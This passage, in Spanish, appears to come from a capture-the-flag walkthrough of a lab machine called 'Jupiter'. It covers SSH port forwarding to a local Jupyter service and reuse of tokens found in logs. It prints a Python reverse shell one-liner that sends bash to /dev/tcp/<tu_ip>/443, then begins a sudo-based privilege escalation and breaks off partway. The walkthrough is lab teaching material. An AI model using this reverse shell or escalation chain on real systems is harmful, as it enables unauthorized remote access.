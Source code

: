 ```
tcp        0      0 127.0.0.1:33637         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:54143         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:56017         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8888          0.0.0.0:*               LISTEN      -  <--- Este                 
tcp        0      0 127.0.0.1:39535         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:45609         0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      - 
```

Asi que haremos portforwarding de ese puerto:

```
ssh -L 8888:127.0.0.1:8888 juno@10.10.11.216
```

Como era de esperarse, tenemos que usar un token para acceder:

![](/imgs/jupiter/4.png)

Podemos usar el token que averiguamos anteriormente, pero en caso de que no te funcione, puedes buscar mas tokens en: ```/opt/solar-flares/logs```

Si vemos uno de los archivos, podemos ver que es esta ejecutando un comando, asi que nosotros podemos intentar lo mismo pero una reverse shell

![](/imgs/jupiter/5.png)

Jupyter al estar trabajando un Python, entonces nos mandaremos un reverse shell usando el modulo ```os```:

```py
import os; os.system('bash -c "bash -i >& /dev/tcp/<tu_ip>/443 0>&1"')
```

Una vez que lo ejecutemos ya seremos Jovian

![](/imgs/jupiter/6.png)

## Jovian a Root

Si buscamos por binarios que podamos ejectuar como root sin contraseña con ```sudo -l```, podemos ver uno que se llama ```sattrack```

```
User jovian may run the following commands on jupiter:
    (ALL) NOPASSWD: /usr/local/bin/sattrack
```

Si lo tratamos de ejecutar nos dira que un archivo de configuracion no se encuentra:
